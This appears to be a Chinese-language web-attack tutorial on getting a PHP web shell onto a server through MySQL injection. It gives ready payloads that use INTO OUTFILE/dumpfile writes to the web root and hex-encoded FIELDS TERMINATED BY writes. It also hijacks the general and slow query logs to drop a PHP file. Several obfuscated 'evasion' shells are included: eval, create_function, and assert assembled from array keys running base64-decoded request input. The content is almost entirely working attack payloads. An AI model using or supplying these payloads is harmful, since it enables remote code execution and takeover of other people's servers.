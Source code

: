 可以使用如下paylaod

```python
SELECT attachment_path,attachment_name,attachment_id FROM aoa_attachment_list UNION SELECT 1,'<?php phpinfo();?>',3 INTO OUTFILE '/var/www/html/indawd.php'

SELECT attachment_path,attachment_name,attachment_id FROM aoa_attachment_list UNION SELECT 1,'<?phpwda',3 into dumpfile 'E:\shanhe.php'
```

但是我不行，我的电脑变量如下。NULL表示不可以写也不可以导出，只有其为空字符串才是可以任意

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339923-0ebc949c-2eb2-4e83-9e97-8d6ec6146446.png#averageHue=%23ddc9ac&id=oylNV&originHeight=296&originWidth=533&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### **非联合查询** [#](https://wiki.wgpsec.org/knowledge/web/mysql-write-shell.html#%E9%9D%9E%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2)

当我们无法使用联合查询时，我们可以使用fields terminated by与lines terminated by来写shell

```python
?id=1 into outfile '/var/www/html/a.php' FIELDS TERMINATED BY 0x3c3f70687020706870696e666f28293b3f3e#
```

## **基于日志写shell**

（ outfile被禁止，或者写入文件被拦截，没写权限 ，有root权限）

```python
show variables like '%general%';	--查看配置，日志是否开启，和mysql默认log地址(记下原地址方便恢复)
set global general_log = on;		--开启日志监测，默认关闭(如果一直开文件会很大的)
SET GLOBAL general_log_file = '/var/www/html/a.php';		--设置日志路径
select '<?php phpinfo();?>';		--执行查询，写入shell
--结束后，恢复日志路径，关闭日志监测

--SQL查询免杀shell
select "<?php $sl = create_function('', @$_REQUEST['klion']);$sl();?>";

SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";

---------------
--慢查询写shell
---------------
为什么要用慢查询写呢？上边说过开启日志监测后文件会很大，网站访问量大的话我们写的shell会出错
show variables like '%slow_query_log%';		--查看慢查询信息
set global slow_query_log=1;				--启用慢查询日志(默认禁用)
set global slow_query_log_file='/var/www/html/a.php';	--修改日志文件路径
select '<?php @eval($_POST[abc]);?>' or sleep(11);				--写shell
```

## **慢查询补充** [#](https://wiki.wgpsec.org/knowledge/web/mysql-write-shell.html#%E6%85%A2%E6%9F%A5%E8%AF%A2%E8%A1%A5%E5%85%85)
